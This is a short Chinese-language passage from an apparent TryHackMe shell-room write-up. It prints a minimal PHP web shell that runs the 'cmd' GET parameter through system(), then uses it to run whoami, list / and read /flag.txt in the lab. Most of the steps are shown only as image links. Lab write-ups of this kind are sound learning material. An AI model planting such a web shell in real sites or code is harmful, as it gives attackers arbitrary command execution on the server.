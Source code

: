 ![task7](/img/user/images/tryhackme-shell：概括/hash.png)

![task7](/img/user/images/tryhackme-shell：概括/flag1.png)

第二个事是简单写了一个php web shell
```
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```
先看看whoami 看一下用户

![task8](/img/user/images/tryhackme-shell：概括/whoami.png)

根据提示说 是在/目录 我们ls / 来看看文件

![task8](/img/user/images/tryhackme-shell：概括/ls.png)

发现了flag cat /flag.txt

![task8](/img/user/images/tryhackme-shell：概括/flag2.png)

这个反弹shell和web shell是真的复杂 简单介绍到此
